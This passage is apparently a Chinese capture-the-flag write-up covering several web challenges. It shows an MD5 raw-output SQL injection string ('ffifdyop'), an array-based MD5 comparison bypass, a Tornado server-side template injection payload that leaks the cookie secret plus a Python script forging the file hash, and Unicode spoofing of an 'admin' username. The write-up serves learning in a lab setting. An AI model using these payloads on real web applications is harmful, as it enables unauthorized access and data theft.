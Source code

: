 所以如果这里我们输入`ffifdyop`，后端的`SQL语句`会变成：

```sql
select * from 'admin' where password=''or'6<trash>'           --->  True
```

后面的就是数组绕过`md5`

都是

```
a[]=1&b[]=2
```

这样的`数组绕过md5`

## [护网杯 2018]easy_tornado

`tornado模块注入`

`error?msg={{1}}`

存在`msg`参数，百度之后发现师傅们可以进行模块注入。尝试了`error?msg={{1}}`，发现的确存在模块注入。然后我们尝试用`+-*/`发现都报错，应该是被`过滤`了。

而我们查官方文档，`tornado`在搭建一个网站时，肯定会有多个`handler`，而这些`handler`都是`RequestHandler`的子类

`RequestHandler.settings`又指向`self.application.settings`

所以我们可以说`handler.settings`指向了`RequestHandler.settings`了，对吧

这样我们就可以构造一下`payload`：`?msg={{handler.settings}}`

拿到`cookie_secret`之后的`exp`

```python
import hashlib
cookie='fef4cbca-8841-4c4e-9d69-7c20990a6d11'
file_filename='/fllllllllllllag'
md5_filename=hashlib.md5(file_filename.encode(encoding='UTF-8')).hexdigest()
word=cookie+md5_filename
flag=hashlib.md5(word.encode(encoding='UTF-8')).hexdigest()
print(flag)
```

最后`payload`

`?filename=/fllllllllllllag&filehash=c61c635cb683b21a9f39fdf1af9ca9e8`

[参考](https://www.cnblogs.com/junlebao/p/13819357.html)

## [HCTF 2018]admin

非预期解

1.**ᴬᴰᴹᴵᴺ**  `Unicode`欺骗

2.我注册了`admin1`

密码是`123`

登录的时候少输了，输成了`admin`，直接拿到了`flag`，所以密码居然直接是`123`......

